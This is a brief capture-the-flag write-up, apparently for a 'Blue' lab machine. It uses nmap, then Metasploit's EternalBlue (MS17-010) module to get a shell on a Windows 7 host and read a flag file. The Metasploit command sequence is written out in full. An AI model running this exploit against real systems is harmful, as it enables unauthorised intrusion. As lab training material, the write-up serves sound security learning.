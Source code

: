 # Blue

## Initial recon

First, scan the host

```sh
nmap -A -T5 10.10.31.40
```

The main expoloitable service found was the `windows 7 professional 7601 Service pack 1`

Related to Eternalblue `MS17-010`

Now lets run the metasploit console

```sh
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
show targets
set TARGET 0
show options
set rhosts 10.10.31.40
exploit
```

Now we have a shell inside the windows machine. Let's look for the flag.

The final flag was found inside the documents folder for a person named `Jon`

```sh
C:\Users\Jon\Documents
type flag3.txt
```

## Followup Recon